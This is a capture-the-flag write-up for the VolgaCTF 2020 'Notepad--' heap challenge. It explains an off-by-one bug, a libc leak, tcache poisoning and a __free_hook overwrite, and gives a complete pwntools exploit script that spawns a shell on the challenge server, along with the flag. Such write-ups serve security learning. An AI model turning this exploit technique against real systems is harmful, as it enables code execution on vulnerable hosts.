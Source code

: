 # Notepad--
> xikhud, 28/03/2020.

## Hint
Basic use-after-free problem.

## Vulnerability
There is an off-by-one error when we update or view the tab, this lets us to leak the libc, and make malloc return an arbitrary address.
```cpp
unsigned __int64 __fastcall view_tab(book *a1, __int64 a2)
{
    //  truncated
    if (v3 >= 0 && v3 <= (signed __int64) a1->tab_count)    // -> should be "<" instead of "<="
    {
        write(1, a1->tabs[v3].data, a1->tabs[v3].size);
    }
    // ......
}
```

## Plan
First we allocate a chunk that is not in tcache range ( > 1024 bytes is enough).
Then we allocate another chunk so that when we free the chunk above, it doesn't merge with top chunk.
Then we free the first chunk, use the off-by-one error to leak `main_arena + 96`.
Then search in [libc database](https://libc.nullbyte.cat), we know that the version of the libc is 2.27.
Then we leak the libc base address. Now we get all the addresses we need.
With UAF vulnerability, we modify the tcache, make `malloc` return `&__free_hook`.
Replace `__free_hook` with `system` address, when we call `free("/bin/sh")`, we will have a shell.


## Final Solution
```python
from pwn import *

#context.log_level = 'DEBUG'
#p = process('./notepad')
p = remote('notepad.q.2020.volgactf.ru', 45678)
libc = ELF('libc.so.6', checksec=False)

p.sendlineafter('[q]uit\n', 'a')
p.sendlineafter('name: ', '/bin/sh')
p.sendlineafter('[q]uit\n', 'p')
p.sendlineafter('pick: ', '1') # --------> switch to book number 1

def add(name, size, data):
    p.sendlineafter('[q]uit\n', 'a')
    p.sendafter('name: ', name)
    p.sendlineafter('): ', str(size))
    p.sendafter('data: ', data)

def delete(index):
    p.sendlineafter('[q]uit\n', 'd')
    p.sendlineafter('delete: ', str(index))

def view(index):
    p.sendlineafter('[q]uit\n', 'v')
    p.sendlineafter('view: ', str(index))
    r = p.recvuntil('Operations').replace('Operations', '')
    return r

def update(index, use_ntn, ntn, use_ndl, ndl, data):
    p.sendlineafter('[q]uit\n', 'u')
    p.sendlineafter('update: ', str(index))
    if not use_ntn:
        ntn = ''
    p.sendlineafter('skip): ', ntn)
    ndl = str(ndl)
    if not use_ndl:
        ndl = ''
    p.sendlineafter('same): ', ndl)
    p.sendafter('data: ', data)


add('xikhud\n', 1200, 'AAAAAAAA')

p.sendlineafter('[q]uit\n', 'q')

p.sendlineafter('[q]uit\n', 'a')
p.sendlineafter('name: ', 'book 2')
p.sendlineafter('[q]uit\n', 'p')
p.sendlineafter('pick: ', '2') # -----------> switch to book number 2

add('xikhud2\n', 0x90, 'BBBBBBBB') # --------> create top chunk
delete(1)
r = view(1)[:6] + '\x00\x00'  # ------------> leak main_arena + 96
r = u64(r)
log.info('main_arena + 96: 0x%X' % r)
base = r - 96 - 0x10 - libc.symbols['__malloc_hook']
log.info('Base: 0x%X' % base)
system = base + libc.symbols['system']
free_hook = base + libc.symbols['__free_hook']

add('xikhud\n', 1200, 'AAAAAAA') # ----------> pop the first chunk from unsorted bin
                                 # ----------> so that next malloc return a new chunk

add('last\n', 0x20, 'here')

p.sendlineafter('[q]uit\n', 'q')
p.sendlineafter('[q]uit\n', 'p')
p.sendlineafter('pick: ', '2') #  ----------> switch to book number 2

add('xikhud3\n', 0x20, 'top') #   ---------> new top chunk

p.sendlineafter('[q]uit\n', 'q')
p.sendlineafter('[q]uit\n', 'p')
p.sendlineafter('pick: ', '1') # ----------> switch to book number 1

delete(2)
update(2, False, ' ', False, ' ', p64(free_hook))  # modify tcache struct
add('last\n', 0x20, '/bin/sh\x00')

add('ZZZZ\n', 0x20, p64(system)) # ----> __free_hook = &system
delete(2) # -------> this call free("/bin/sh")

p.interactive()

# flag: VolgaCTF{i5_g1ibc_mall0c_irr3p@rable?}
```